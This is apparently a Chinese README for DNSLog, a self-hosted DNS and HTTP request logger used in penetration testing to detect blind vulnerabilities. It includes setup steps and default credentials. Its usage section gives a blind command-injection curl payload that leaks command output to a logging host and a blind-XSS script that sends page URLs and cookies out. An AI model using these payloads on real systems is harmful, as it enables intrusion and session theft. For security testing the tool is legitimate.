 ```
 ____  _   _ ____  _
|  _ \| \ | / ___|| |    ___   __ _
| | | |  \| \___ \| |   / _ \ / _` |
| |_| | |\  |___) | |__| (_) | (_| |
|____/|_| \_|____/|_____\___/ \__, |
                              |___/
```
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)   [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/BugScanTeam/dnslog/master/GPL-2.0) 

简介
---

DNSLog 是四叶草安全旗下 BugscanTeam 打造的一款监控 DNS 解析记录和 HTTP 访问记录的工具，在检测盲注类漏洞时有着非常重要的作用，是分布式漏洞扫描框架 BugScan 中核心库之一。

DNSLog 基于 Django 框架编写，将 DNSServer 集成进 DNSLog 中，使用者可轻松搭建使用环境。

你可以点击这里访问： [演示站点](http://admin.dnslog.link)

安装
---

1. 获取源代码

 你可以通过用 Git 来克隆代码仓库中的最新源代码

 ```
 $ git clone git@github.com:BugScanTeam/DNSLog.git
 ```

 或者你可以点击 [这里](https://github.com/BugScanTeam/DNSLog/archive/master.zip) 下载最新的源代码 zip 包,并解压

 ```
 $ wget https://github.com/BugScanTeam/DNSLog/archive/master.zip
 $ unzip master.zip
 ```

2. 安装依赖环境

 DNSLog 使用前需要安装 Django 1.8 与 dnslib ，如果已经安装可跳过此步

 ```
 $ cd dnslog
 $ pip install -r requirements.pip
 ```
3. 域名与公网 IP 准备
	
	搭建并使用 DNSLog，你需要拥有两个域名，一个域名作为 NS 服务器域名(例:a.com)，一个用于记录域名(例: b.com)。还需要有一个公网 IP 地址(如：1.1.1.1)
	
	**注意：b.com 的域名提供商需要支持自定义 NS 记录, a.com 则无要求。**
	
	1. 在 a.com 中设置两条 A 记录：

		```
		ns1.a.com  A 记录指向  1.1.1.1		
		ns2.a.com  A 记录指向  1.1.1.1
		```
	2. 修改 b.com 的 NS 记录为 1 中设定的两个域名

		> 本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
	
	**注意: NS 记录修改之后部分地区需要 24-48 小时会生效**

4. 修改配置文件
	
 修改 `dnslog/dnslog/settings.py` 文件中相关配置：
 
 > 配置文件中的域名对应关系与步骤 3 相同
 
 ```
	# 做 dns 记录的域名
	DNS_DOMAIN = 'b.com'
	
	# 记录管理的域名, 这里前缀根据个人喜好来定
	ADMIN_DOMAIN = 'admin.b.com'
	
	# NS域名
	NS1_DOMAIN = 'ns1.a.com'
	NS2_DOMAIN = 'ns2.a.com'
	
	# 服务器外网地址
	SERVER_IP = '1.1.1.1'
 ```

5. 启动服务

 ```
 $ cd dnslog/
 $ sudo python manage.py runserver 0.0.0.0:80
 ```
 
 **Django web 默认启动端口为 8000，若要启动在 80 端口则需要 root 权限**
 
 > 如果不想启动在 80 端口，但又想在使用 HTTP 的时候不加端口号，可以自己安装 Nginx，对 b.com 做反向代理
 
 Nginx 反向代理参考脚本：
 
 ```
	server {
	    server_name *.b.com;
	    server_name b.com;
	    location / {
	        proxy_pass http://127.0.0.1:8000/;
	                proxy_set_header Host $host;
	                proxy_set_header X-Real-IP $remote_addr;
	                proxy_set_header X-Forwarded-For $remote_addr;
	                proxy_set_header X-Forwarded-Proto https;
	    }
	}
 ```


使用
---

### 站点管理

 启动服务成功后，访问 `http://b.com/admin/` 进入后台
 
 > 管理员用户名密码默认均为 admin
 
 如果忘记管理员密码，可进入 dnslog 目录下，执行如下命令重设管理员密码
 
 ```
 python manage.py changepassword admin 
 ```

### 普通用户

 在 User 表中添加使用用户的信息，表中默认已经存在 `test/123456` 这个用户。
 
 访问 `http://admin.b.com` (ADMIN_DOMAIN 指定的域名)，输入用户名密码登录。
 
 访问后会在下方看到自己的二级域名，例如 test.b.com，当请求 test.b.com 这个二级域名下的任意子域时，都会被记录，例如: demo.test.b.com。

使用技巧
---

### 命令盲注利用

对于一些命令盲注类的漏洞，可以通过 DNSLog 中的 WebLog 部分将其转化为有回显的命令执行：

```
curl "http://testhash.test.dnslog.link/?`whoami`"
```

**在 Web 控制台下看到结果：**

\#	|	path	|	ip	|	ua	| date
---|---|---|---|---
146	| testhash.test.dnslog.link/?root |	xxx.xxx.xxx.xxx |	curl/7.43.0	| 2016-05-10 07:36:47


### DNS记录中获取源IP地址

详见 [issue#3](https://github.com/BugScanTeam/DNSLog/issues/3)

```
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
```

效果如下：

```
➜  ~ ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
PING 192.168.10.167.test.dnslog.link (106.186.118.146): 56 data bytes
64 bytes from 106.186.118.146: icmp_seq=0 ttl=52 time=259.491 ms
64 bytes from 106.186.118.146: icmp_seq=1 ttl=52 time=307.566 ms
64 bytes from 106.186.118.146: icmp_seq=2 ttl=52 time=352.757 ms

--- 192.168.10.167.test.dnslog.link ping statistics ---
3 packets transmitted, 3 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 259.491/306.605/352.757/38.082 ms
```

### XSS 盲打

在有 XSS 漏洞的页面加入类似如下代码：

```
var s=document.createElement('img');
s.src="http://xss.test.dnslog.link/?url="+document.location+"&cookie="+document.cookie;
document.head.appendChild(s);
```

以 `httpbin.org` 为例，一旦触发，在 WebLog 中可以看到：

\#	|	path	|	ip	|	ua	| date
---|---|---|---|---
146	| xss.test.dnslog.link/?url=http://httpbin.org/&cookie=_ga=GA1.2.17.142 |	xxx.xxx.xxx.xxx |	Mozilla/5.0 xxx	| 2016-06-18


相关链接
---

* [版权声明](./GPL-2.0)
* [BugScan 社区官网](https://www.bugscan.net)
* [DNSLog 示例站点](http://admin.dnslog.link/)
